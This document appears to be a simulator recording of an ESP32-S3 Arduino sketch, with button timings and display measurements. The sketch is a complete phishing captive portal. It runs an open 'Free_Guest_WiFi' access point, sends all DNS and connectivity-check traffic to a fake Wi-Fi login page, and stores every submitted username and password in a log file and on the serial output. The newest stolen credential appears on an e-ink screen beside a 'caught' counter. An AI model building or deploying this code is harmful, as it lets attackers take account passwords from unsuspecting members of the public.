
Recording of a sketch running on a simulated ESP32-S3. Parts: 250×122 one-colour display. The inputs (shaded band) are chosen by the test bench; at power-on: GPIO 6 (BTN_UP) HIGH. Storage starts empty; what the sketch prints to the serial monitor is not drawn.

Above: at 4.4 s.
4.5 s: GPIO 6 (BTN_UP) pulled LOW for 0.15 s
At 7.4 s:

7.6 s: GPIO 6 (BTN_UP) pulled LOW for 1 s
Timing chart, 0 to 10.6 s (numbered marks = the images above; inputs shaded):


The sketch:

ESP32S3_CaptivePortal.ino
```cpp
/*
  ESP32-S3 High-Performance Captive Portal Firmware
  --------------------------------------------------
  Target Board: Adafruit ESP32-S3 Qualia RGB666
  Framework:    Arduino IDE
  Dependencies: LittleFS, DNSServer, WebServer, WiFi, esp_sleep,
                GxEPD2 (Waveshare 2.13" 250x122 e-ink)

  E-ink Wiring (SPI):
    VCC  -> 3.3V
    GND  -> GND
    DIN  -> GPIO11  (MOSI)
    CLK  -> GPIO12  (SCK)
    CS   -> GPIO10
    DC   -> GPIO9
    RST  -> GPIO8
    BUSY -> GPIO7
*/

#include <WiFi.h>
#include <DNSServer.h>
#include <WebServer.h>
#include <LittleFS.h>
#include "esp_sleep.h"

// ── E-ink Display (GxEPD2) ────────────────────────────────────────────────────
#include <GxEPD2_BW.h>
#include <Fonts/FreeMonoBold9pt7b.h>
#include <Fonts/FreeMono9pt7b.h>

// Pin definitions for Waveshare 2.13" 250x122 (SPI)
#define EINK_CS   10
#define EINK_DC    9
#define EINK_RST   8
#define EINK_BUSY  7

// GxEPD2 display object — GxEPD2_213_B74 covers Waveshare 2.13" v4 (GDEY0213B74)
GxEPD2_BW<GxEPD2_213_B74, GxEPD2_213_B74::HEIGHT> display(
  GxEPD2_213_B74(EINK_CS, EINK_DC, EINK_RST, EINK_BUSY)
);

// Capture counter in RTC memory — survives deep sleep
RTC_DATA_ATTR int captureCount = 0;

// ── Button Pin Definitions (Adafruit ESP32-S3 Qualia RGB666) ──────────────────
#define BTN_ON  0   // "ON"  button — GPIO0 (boot button) — wakes from deep sleep
#define BTN_UP  6   // "UP"  button — GPIO6

// ── Deep Sleep Configuration ──────────────────────────────────────────────────
// Auto-sleep after this many seconds with no captive-portal client activity
#define INACTIVITY_SLEEP_SEC 300  // 5 minutes

unsigned long lastActivityMs = 0;   // tracks last client interaction

// AP Configuration
const char* AP_SSID = "Free_Guest_WiFi";
const char* AP_PASS = NULL; // Open AP

// ── Channel Control ───────────────────────────────────────────────────────────
#define CH_MIN  1
#define CH_MAX  13
RTC_DATA_ATTR int currentChannel = 6;  // default ch6, survives deep sleep

// UP button debounce + edge detection
#define BTN_DEBOUNCE_MS 50
unsigned long lastBtnUpMs = 0;
bool lastBtnUpState = HIGH;  // tracks previous state for falling-edge detection

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 4, 1);
IPAddress netMsk(255, 255, 255, 0);

DNSServer dnsServer;
WebServer server(80);

// HTML Fallback String if LittleFS is not flashed
const char INDEX_HTML_FALLBACK[] PROGMEM = R"rawliteral(
<!DOCTYPE html><html><head><meta name="viewport" content="width=device-width, initial-scale=1">
<title>Wi-Fi Login</title>
<style>
body{font-family:sans-serif;background:#0f172a;color:#fff;display:flex;justify-content:center;align-items:center;height:100vh;margin:0;}
.card{background:#1e293b;padding:2rem;border-radius:12px;width:90%;max-width:360px;box-shadow:0 10px 25px rgba(0,0,0,0.5);}
h2{text-align:center;margin-bottom:1rem;}
input,button{width:100%;padding:10px;margin:8px 0;box-sizing:border-box;border-radius:6px;border:1px solid #334155;}
input{background:#0f172a;color:#fff;}
button{background:#2563eb;color:#fff;border:none;font-weight:bold;cursor:pointer;}
</style></head>
<body><div class="card"><h2>Wi-Fi Authentication</h2>
<form action="/login" method="POST">
<input type="text" name="identity" placeholder="Username / Email" required><br>
<input type="password" name="passcode" placeholder="Password" required><br>
<button type="submit">Connect</button>
</form></div></body></html>
)rawliteral";

bool isCaptivePortalRequest() {
  String host = server.hostHeader();
  if (host != "192.168.4.1" && host != "") {
    return true;
  }
  return false;
}

void handleRoot() {
  if (isCaptivePortalRequest()) {
    server.sendHeader("Location", "http://192.168.4.1/", true);
    server.send(302, "text/plain", "");
    return;
  }

  if (LittleFS.exists("/index.html")) {
    File file = LittleFS.open("/index.html", "r");
    server.streamFile(file, "text/html");
    file.close();
  } else {
    server.send(200, "text/html", INDEX_HTML_FALLBACK);
  }
}

void handleLogin() {
  lastActivityMs = millis();  // reset inactivity timer on client interaction

  String identity = server.arg("identity");
  String passcode = server.arg("passcode");

  Serial.println("=========================================");
  Serial.print("[Auth Entry Received] Identity: ");
  Serial.println(identity);
  Serial.print("[Auth Entry Received] Passcode: ");
  Serial.println(passcode);
  Serial.println("=========================================");

  // Append entry to LittleFS log file
  File logFile = LittleFS.open("/captures.log", FILE_APPEND);
  if (logFile) {
    logFile.printf("%s, %s\n", identity.c_str(), passcode.c_str());
    logFile.close();
  }

  // Update e-ink display with latest credential
  captureCount++;
  updateDisplay(identity, passcode);

  String responseHTML = "<html><head><meta http-equiv='refresh' content='3;url=http://192.168.4.1/'></head>"
                         "<body style='background:#0f172a;color:#fff;font-family:sans-serif;text-align:center;padding-top:20%;'>"
                         "<h2>Connecting...</h2><p>Authenticating your device. Please wait.</p></body></html>";
  server.send(200, "text/html", responseHTML);
}

void handleNotFound() {
  if (isCaptivePortalRequest()) {
    server.sendHeader("Location", "http://192.168.4.1/", true);
    server.send(302, "text/plain", "");
  } else {
    handleRoot();
  }
}

// ── E-ink: Render latest credential ──────────────────────────────────────────
void updateDisplay(const String& identity, const String& passcode) {
  display.setRotation(1);  // landscape (250 wide x 122 tall)
  display.setTextColor(GxEPD_BLACK);

  display.setFullWindow();
  display.firstPage();
  do {
    display.fillScreen(GxEPD_WHITE);

    // ── Top banner ────────────────────────────────────────────────────────────
    display.setFont(&FreeMonoBold9pt7b);
    display.setCursor(70, 14);
    display.print("unlucky");
    display.drawLine(0, 18, 250, 18, GxEPD_BLACK);

    // ── Vertical divider (centre split at x=122) ──────────────────────────────
    display.drawLine(122, 18, 122, 122, GxEPD_BLACK);

    // ── LEFT: AP info ─────────────────────────────────────────────────────────
    display.setFont(&FreeMono9pt7b);

    display.setCursor(4, 34);
    display.print("SSID:");
    // wrap SSID across two lines if needed (max ~11 chars/line at this font)
    String ssid = String(AP_SSID);
    display.setCursor(4, 50);
    display.print(ssid.substring(0, 11));
    if (ssid.length() > 11) {
      display.setCursor(4, 65);
      display.print(ssid.substring(11, 22));
    }

    display.setCursor(4, 83);
    display.print("CH:");
    display.setFont(&FreeMonoBold9pt7b);
    display.setCursor(4, 100);
    display.print(currentChannel);

    display.setFont(&FreeMono9pt7b);
    display.setCursor(4, 116);
    display.print("#");
    display.print(captureCount);
    display.print(" caught");

    // ── RIGHT: Latest credential ──────────────────────────────────────────────
    display.setFont(&FreeMono9pt7b);

    display.setCursor(128, 34);
    display.print("USER:");
    String id = identity.substring(0, min((int)identity.length(), 10));
    display.setCursor(128, 50);
    display.print(id);
    if (identity.length() > 10) {
      display.setCursor(128, 65);
      display.print(identity.substring(10, 20));
    }

    display.setCursor(128, 83);
    display.print("PASS:");
    String pass = passcode.substring(0, min((int)passcode.length(), 10));
    display.setCursor(128, 99);
    display.print(pass);
    if (passcode.length() > 10) {
      display.setCursor(128, 114);
      display.print(passcode.substring(10, 20));
    }

  } while (display.nextPage());
}

// ── Channel hop: increment ch, restart AP, refresh display ───────────────────
void changeChannel() {
  currentChannel++;
  if (currentChannel > CH_MAX) currentChannel = CH_MIN;

  Serial.printf("[CH] Switching to channel %d\n", currentChannel);

  // Restart AP on new channel (keep same SSID/pass)
  WiFi.softAPdisconnect(false);
  delay(100);
  WiFi.softAP(AP_SSID, AP_PASS, currentChannel);

  Serial.printf("[CH] AP restarted on channel %d\n", currentChannel);

  // Refresh display with updated channel (blank creds since no new capture)
  updateDisplay("", "");
}


void goToDeepSleep() {
  Serial.println("[SLEEP] Entering deep sleep. Press ON button (GPIO0) to wake.");
  Serial.flush();
  WiFi.mode(WIFI_OFF);

  // Wake on ON button (GPIO0) — active LOW (pressed = 0)
  esp_sleep_enable_ext0_wakeup((gpio_num_t)BTN_ON, 0);

  esp_deep_sleep_start();
}

void setup() {
  Serial.begin(115200);
  delay(1000);

  // ── Button Setup ────────────────────────────────────────────────────────────
  pinMode(BTN_ON, INPUT_PULLUP);
  pinMode(BTN_UP, INPUT_PULLUP);

  // ── Print Wakeup Reason ─────────────────────────────────────────────────────
  esp_sleep_wakeup_cause_t wakeup_reason = esp_sleep_get_wakeup_cause();
  if (wakeup_reason == ESP_SLEEP_WAKEUP_EXT0) {
    Serial.println("[WAKE] Woke from deep sleep via ON button (GPIO0).");
  } else {
    Serial.println("[BOOT] Cold boot / reset.");
  }

  lastActivityMs = millis();

  Serial.println("\n--- ESP32-S3 Captive Portal System ---");

  // Initialize LittleFS
  if (!LittleFS.begin(true)) {
    Serial.println("[ERROR] LittleFS Mount Failed");
  } else {
    Serial.println("[OK] LittleFS Mounted Successfully");
  }

  // Configure SoftAP
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, netMsk);
  WiFi.softAP(AP_SSID, AP_PASS);

  Serial.print("[OK] Access Point Started: ");
  Serial.println(AP_SSID);
  Serial.print("[OK] IP Address: ");
  Serial.println(WiFi.softAPIP());

  // DNS Captive Portal Redirection
  dnsServer.setErrorReplyCode(DNSReplyCode::NoError);
  dnsServer.start(DNS_PORT, "*", apIP);

  // Web Server Routes
  server.on("/", handleRoot);
  server.on("/login", HTTP_POST, handleLogin);

  // Probe endpoint captures for Android, iOS, Windows
  server.on("/generate_204", handleRoot);
  server.on("/redirect", handleRoot);
  server.on("/hotspot-detect.html", handleRoot);
  server.on("/canonical.html", handleRoot);
  server.on("/connecttest.txt", handleRoot);

  server.onNotFound(handleNotFound);
  server.begin();

  // ── E-ink Init ──────────────────────────────────────────────────────────────
  display.init(115200, true, 2, false);
  display.setRotation(1);

  // Show ready splash
  display.setFullWindow();
  display.firstPage();
  do {
    display.fillScreen(GxEPD_WHITE);
    display.setFont(&FreeMonoBold9pt7b);
    display.setTextColor(GxEPD_BLACK);
    display.setCursor(10, 40);
    display.print("Portal Ready");
    display.setFont(&FreeMono9pt7b);
    display.setCursor(10, 60);
    display.print("SSID: ");
    display.print(AP_SSID);
    display.setCursor(10, 80);
    display.print("Captures: ");
    display.print(captureCount);
  } while (display.nextPage());

  Serial.println("[OK] E-ink Display Initialized");
}

void loop() {
  dnsServer.processNextRequest();
  server.handleClient();

  // ── UP Button: increment channel (falling-edge only — fires once per press) ──
  bool currentBtnUp = digitalRead(BTN_UP);
  if (currentBtnUp == LOW && lastBtnUpState == HIGH) {
    unsigned long now = millis();
    if (now - lastBtnUpMs > BTN_DEBOUNCE_MS) {
      lastBtnUpMs = now;
      lastActivityMs = now;
      changeChannel();
    }
  }
  lastBtnUpState = currentBtnUp;

  // ── Inactivity Auto-Sleep ────────────────────────────────────────────────────
  if (millis() - lastActivityMs > (INACTIVITY_SLEEP_SEC * 1000UL)) {
    Serial.println("[SLEEP] Inactivity timeout reached.");
    goToDeepSleep();
  }
}
```

Measured:
- after the input at 4.5 s, the display: changes after 2.3 s (image 1)
